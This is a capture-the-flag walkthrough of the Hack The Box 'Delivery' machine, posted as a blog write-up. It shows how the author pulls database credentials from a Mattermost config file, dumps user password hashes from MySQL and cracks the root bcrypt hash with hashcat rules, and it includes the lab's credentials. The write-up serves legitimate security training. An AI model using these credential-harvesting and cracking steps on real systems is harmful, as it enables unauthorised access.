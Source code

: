 ```yaml
---
layout: post
title: HTB Machine - Delivery
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/c55af6eadd5b60bac831d73c1a951327.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/c55af6eadd5b60bac831d73c1a951327.png
share-img: https://www.hackthebox.com/storage/avatars/c55af6eadd5b60bac831d73c1a951327.png
tags: [ HTB, Hack the Box,Web,Vulnerability Assessment,Common Applications,Outdated Software,Authentication,Impersonation,Weak Credentials,TicketTrick]
---
```


Linux Machine
```zsh
whatweb http://10.10.10.222
http://10.10.10.222 [200 OK] Country[RESERVED][ZZ], Email[jane@untitled.tld], HTML5, HTTPServer[nginx/1.14.2], IP[10.10.10.222], JQuery, Script, Title[Welcome], nginx[1.14.2]
```

if we check the webpage it mentions 'check our helpdesk' when redirecting there the page is not recognize cause it cannot resolve. Add the address helpdesk.delivery.htb to our /etc/hosts and we should gain access. There is an option to open a ticket. 

test@test.com

6544929
6544929@delivery.htb

the message in slack mentions credentials. and also that the root has a pass set with a variation of PleaseSubscribe!
maildeliverer:Youve_G0t_Mail! 

lets ssh
```zsh
ssh maildeliverer@10.10.10.222
```
Set terminal and check release. Check privileges and sudo assigments.
export TERM=xterm
```zsh
lsb_release a

id

sudo -l
```
lets search for suid privileges. Nothing interesting her
```zsh
find \-perm -4000 2>/dev/null
```
If we try to find where the webpages are stored in the server perhaps we can check for passwords inside their config files. No luck there.
```zsh
find / -name tickets.php 2>/dev/null
/var/www/osticket/upload/tickets.php
/var/www/osticket/upload/scp/tickets.php

grep -r -i password | less -s
```
we have also the chat service, we can check it as well. First we can find from where is running and then check the folder for any config file. 
```zsh
ps -faux | grep -i mattermost

cd /opt/mattermost/config

cat config.json 
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)
```        
Some credentials for an sql server are found. 
```zsh
mysql -u mmuser -p

show databases;
use mattermost
show tables;
show Users;
describe Users;
select Username,Password from Users;
```
We have now a hash for root. To determine the hash we can check the examples from hashcat or a hash identifier.
```zsh
hashcat --example-hashes | grep '$2a' -B 15
```
We determine that the method will be then 3200 for Bcrypt.
```zsh
hashcat -m 3200 -a 0 hash rockyou.txt
```
It wont crack it so the password is not contained in rockyou.txt. In the mattermost chat we read that there is a password that is not contained in rockyou but it is a variation of a word. We can use hashcat to generate passwords with that root of word. We place our root word in a file pwd and then use a rule from hashcat (there are more than 1 available). After that we will use or newly created dictionary to crack the password.
```zsh
hashcat --stdout -r /usr/share/hashcat/rules/best64.rule pwd > pwd2

hashcat -m 3200 -a 0 hash pwd2

PleaseSubscribe!21
```
we cannot ssh with the root user cause it is not allowed. We need to change from the current user we have to root with the password and from there retrieve the flag.
```zsh
su root

cat /etc/ssh/sshd_config | grep -i permit
#PermitRootLogin prohibit-password
PermitRootLogin no
#PermitEmptyPasswords no
# the setting of "PermitRootLogin without-password".
#PermitTTY yes
#PermitUserEnvironment no
#PermitTunnel no
#	PermitTTY no
```
